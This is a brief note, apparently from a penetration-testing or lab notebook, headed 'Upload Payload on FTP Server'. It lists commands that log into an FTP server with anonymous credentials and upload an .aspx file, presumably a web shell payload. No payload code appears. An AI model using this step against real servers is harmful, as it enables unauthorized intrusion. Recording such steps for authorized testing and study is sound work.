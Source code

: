 ```yaml
---
title: 5.3 Upload Payload on FTP Server
updated: 2022-08-11T11:22:08.0000000+04:00
created: 2022-08-11T11:20:16.0000000+04:00
---
```


AM
**Log into FTP and upload payload:**

\> ftp {ip address}
\> anonymous
\> anonymous
\> put filename.aspx

